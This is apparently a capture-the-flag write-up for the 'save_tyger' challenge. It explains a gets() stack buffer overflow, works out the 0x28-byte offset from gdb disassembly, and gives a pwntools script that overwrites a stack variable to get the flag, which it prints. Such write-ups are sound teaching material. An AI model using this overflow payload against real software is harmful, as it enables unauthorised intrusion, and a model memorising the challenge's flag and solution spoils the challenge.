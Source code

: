 # save_tyger
> Can you save our one and only Tyger?
> Connect with `nc litctf.live 31786`
> 
> Downloads
> [save_tyger.zip](https://drive.google.com/uc?export=download&id=1ePTPwUBKcNLESM2ev1IZEb3kL4SeTcn1)

## Identifying the vulnerability
The program prints the flag if the `pass` variable stored on the stack contains value `0xabadaaab`. It uses `gets(buf)` on line 12 to read data from stdin to a char array of 32 elements stored on the stack. `gets` doesn't restrict the amount of bytes read and therefore it introduces a buffer overflow vulnerability that can be used to overwrite the value of `pass`.

## Crafting the payload
It might seem that we need to pass 32 padding bytes and then the number `0xabadaaab` for the exploit to work, since the `buf` array is 32 elements long. However we must take the stack alignment into consideration, so let's check the actual number of bytes between `buf` and `pass` by disassembling the executable using gdb:
```gdb
Dump of assembler code for function main:
   0x00000000000011c9 <+0>:     endbr64 
   0x00000000000011cd <+4>:     push   rbp
   0x00000000000011ce <+5>:     mov    rbp,rsp
   0x00000000000011d1 <+8>:     sub    rsp,0x30
   0x00000000000011d5 <+12>:    mov    QWORD PTR [rbp-0x8],0x0
   0x00000000000011dd <+20>:    lea    rdi,[rip+0xe24]        # 0x2008
   0x00000000000011e4 <+27>:    call   0x1090 <puts@plt>
   0x00000000000011e9 <+32>:    lea    rdi,[rip+0xe4b]        # 0x203b
   0x00000000000011f0 <+39>:    call   0x1090 <puts@plt>
   0x00000000000011f5 <+44>:    lea    rax,[rbp-0x30]
   0x00000000000011f9 <+48>:    mov    rdi,rax
   0x00000000000011fc <+51>:    mov    eax,0x0
   0x0000000000001201 <+56>:    call   0x10b0 <gets@plt>
   0x0000000000001206 <+61>:    mov    eax,0xabadaaab
   0x000000000000120b <+66>:    cmp    QWORD PTR [rbp-0x8],rax
[...]
```
The argument passed to `gets` in `main+44` (the char array `buf`) is located in address `rbp-0x30`. The number compared to `0xabadaaab` in `main+61` (the variable `pass`) is stored under `rbp-0x8`. The amount of bytes between `buf` and `pass` (therefore length of our padding) is `0x30 - 0x8 = 0x28`.
The following script written in Python with pwnlib can be used to send the payload to the remote challenge and read the flag:
```py
from pwn import *

p = remote('litctf.live', 31786)

p.recvuntil(b'him?\n')
p.sendline(b'A' * 0x28 + p64(0xabadaaab))
print(p.recvall())
```

## Flag
`LITCTF{y4yy_y0u_sav3d_0ur_m41n_or94n1z3r}`
